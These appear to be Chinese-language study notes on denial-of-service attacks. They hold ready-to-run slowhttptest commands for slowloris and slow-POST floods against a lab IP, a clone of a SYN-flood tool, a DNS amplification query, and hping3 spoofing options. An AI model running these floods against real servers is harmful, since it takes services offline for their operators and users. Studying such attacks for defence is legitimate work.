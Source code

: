 低带宽应用层慢速DOS攻击（相对于cc慢）

擅长攻击apache，tomcat服务器

耗尽应用的并发连接池，类似于http层的syn_flood

http协议默认是收到全部请求后开始处理，如果客户发送的数据包慢速而且不完整，就会导致DoS

### slow http post慢速攻击（RUDY）

slowhttptest -c 2000 -B -g -o body_states -i 110 -r 200 -s 8192 -t FAKEVERB -u [http://192.168.87.150](http://192.168.87.150/) -x 10 -p 3

### slowloris攻击

原理：

完整http结尾\r\n\r\n 它攻击结尾\r\n

slowhttptest -c 2000 -H -g -o my_header_states -i 10 -r 1000 -t GET -u [http://192.168.87.150](http://192.168.87.150/) -x 24 -p 3

syn flood

syn洪水攻击

git clone https://github.com/EmreOvunc/Python-SYN-Flood-Attack-Tool.git

------

### dns放大攻击

发送给dns服务器数据包94

返回的数据包大小160+

典型的流量放大攻击，以小汇多

利用协议特定进行放大流量

apt-get install dnsutils

dig ANY qq.com @[dns的ip]

利用回包进行攻击

------

### hping3

定制发送任何的数据包

-a 伪造源地址

-q 不返回

-n 不解析域名

-s 源端口

-d 字节数
